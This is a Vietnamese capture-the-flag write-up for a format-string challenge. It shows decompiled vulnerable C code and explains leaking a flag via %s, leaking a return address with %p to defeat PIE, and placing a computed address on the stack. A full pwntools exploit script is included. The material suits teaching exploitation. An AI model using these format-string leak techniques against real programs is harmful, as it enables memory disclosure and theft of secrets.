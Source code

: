 # FMTSTR3-Leak dữ liệu kết hợp %p và %s

**1 bài tập kết hợp giữa %p và %s**

**ida:**

```
unsigned __int64 run()
{
  int v1; // [rsp+Ch] [rbp-44h]
  void *ptr; // [rsp+10h] [rbp-40h]
  FILE *stream; // [rsp+18h] [rbp-38h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v5; // [rsp+28h] [rbp-28h]
  char format[8]; // [rsp+30h] [rbp-20h] BYREF
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)format = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  ptr = malloc(0x100uLL);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("Cannot open flag.txt");
    exit(0);
  }
  fseek(stream, 0LL, 2);
  v1 = ftell(stream);
  fseek(stream, 0LL, 0);
  fread(ptr, v1 / 2, 1uLL, stream);
  fread(&flag2, v1, 1uLL, stream);
  fclose(stream);
  puts("What's your name?");
  printf("Your name: ");
  fgets(s, 16, stdin);
  printf("Hello ");
  printf(s);
  puts("Welcome to transylvania\n");
  printf("Say a greeting: ");
  fgets(format, 24, stdin);
  printf(format);
  puts("It's nice to meet you here");
  return __readfsqword(0x28u) ^ v9;
}
```

ở đây ta có lỗi **format string** 

**hàm fseek gán con trỏ ptr nửa flag đầu, nửa flag sau thì gán vào flag2**

checksec và vm:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/984fac9f-9fea-4fac-8a26-802f6d1e365d)


**ở đây ta thấy pie mở với địa chỉ stack có 6 byte nên ta chắc chắn đây là địa chỉ động**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/562737d5-dd4d-45e5-bd5a-f4e0d729ed08)


tại đây ta thể dùng **%s** để leak được nửa flag đầu

**vấn đề nan giải ở đây là địa chỉ của flag2 ko nằm ở stack, ta ko thể xác định được địa chỉ flag2 nằm đâu để dùng format string lấy flag**

**hướng giải quyết:**

- vì địa chỉ flag2 ko nằm trong stack nên ý tưởng đâu tiên trong đầu là leak ra địa chỉ flag2 sau đó gán vào trong stack, từ đó lợi dụng lỗi fmtstr để lấy flag
- để lấy được địa chỉ flag2 ta cần có được địa chỉ base của file
- để có được địa chỉ base thì ta cần leak được địa chỉ của rip , lý do là địa chỉ rip luôn cố định trong mỗi lần chạy

**tóm tắt ý tưởng:**

***fmtstr -> leak rip -> offset -> leak base -> offset -> leak flag2***

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3cb1c1ef-430f-4cbe-86f6-73ba398aa3c3)


đầu tiên ta cần **8 %s** để leak nữa flag đầu, **12 %p** sau để leak ra địa chỉ rip

**h ta tính offset từ rip đến địa chỉ base:**
![image](https://github.com/gookoosss/CTF.-/assets/128712571/fec79126-8d9e-48fb-a389-9bd429f58bb5)



**tính offset từ địa chỉ base đến flag 2:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/978fc83e-f938-4ae8-8d2b-28ace5d69fc6)


**h ta viết script nhập lần đầu:**


![image](https://github.com/gookoosss/CTF.-/assets/128712571/345ea3d8-e8a3-4d3c-a61a-57947cabd79f)


chạy thử xem ta có leak đúng ko 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/2344cbe8-0199-4e0f-8a07-efe1a595025e)


mình tự check thì thấy đúng r nha

**h đến lần nhập 2, ta cần gán địa chỉ flag2  vào trong stack**

ta thấy cần nhập đủ **8byte** để địa chỉ của **flag2** nằm trọn trong stack , từ đó ta có thể dùng %s để leak ra flag2

ở đây ta đếm thừ cần **13 %s** để đến địa chỉ stack chứa **flag2**, nhưng mà **%13$s** thì chỉ có 5byte , nên ta cần 3byte nữa để đủ 8byte

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5f2f9178-8902-472e-b9d6-759e68ff1e12)


**full script:**

```
from pwn import *

p = process('./fmtstr3')
exe = ELF('./fmtstr3')

flag = b''
gdb.attach(p, gdbscript = '''
b*run+364
b*run+434
c
''')

input()

#((rsp + ?) - rsp)/8 + 6
payload = b'%8$s%17$p'
p.sendlineafter(b'name: ', payload)
p.recvuntil(b'Hello ')
flag += p.recvuntil(b'0x', drop = True)
exe_leak = int(p.recvline()[:-1], 16)
exe_address = exe_leak - 0x14e6
flag2_addr = exe_address + 0x4060
log.info("Flag 1: " + flag.decode())
log.info("Exe leak: " + hex(exe_leak))
log.info("Exe base: " + hex(exe_address))
log.info("Flag2 address: " + hex(flag2_addr))

payload = b'%13$saaa'
payload += p64(flag2_addr)
p.sendlineafter(b'greeting: ', payload)
flag += p.recvuntil(b'}')
log.info("Flag: " + flag.decode())

p.interactive()
```

chạy lại lần nữa thì ta ra được flag rồi nha

![image](https://github.com/gookoosss/CTF.-/assets/128712571/71b26f53-4eb3-4709-80f4-b1eb6bd38ac1)





